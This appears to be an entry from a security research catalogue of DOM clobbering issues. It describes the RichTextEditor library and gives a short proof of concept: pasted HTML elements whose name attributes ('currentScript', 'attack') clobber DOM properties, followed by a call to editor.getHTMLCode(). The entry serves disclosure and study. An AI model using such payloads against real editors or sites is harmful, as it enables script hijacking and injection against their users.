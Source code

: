 ## RichTextEditor

### Meta

+ Library: RichTextEditor
+ Version: Latest
+ Stars: N/A
+ Fingerprint: `document.getElementsByClassName('richtexteditor').length > 0`
+ Input: Copy&Paste
+ Sanitizer: N/A
+ Capability: Any named property
+ CVE: N/A
+ Status: N/A

### Library

https://richtexteditor.com/

### Vulnerable Code Snippet & PoC 

Goto the following URL:
https://richtexteditor.com/Demos/

Copy & Paste the following rendered HTML elements to the editor:
```
<img name="currentScript" src="https://xxx.xxx.xxx">
<img name="attack" src="https://xxx.xxx.xxx">
<a name="attack" href="https://xxx.xxx.xxx">AAA</a>
```

Run the following code:
```
editor.getHTMLCode()
```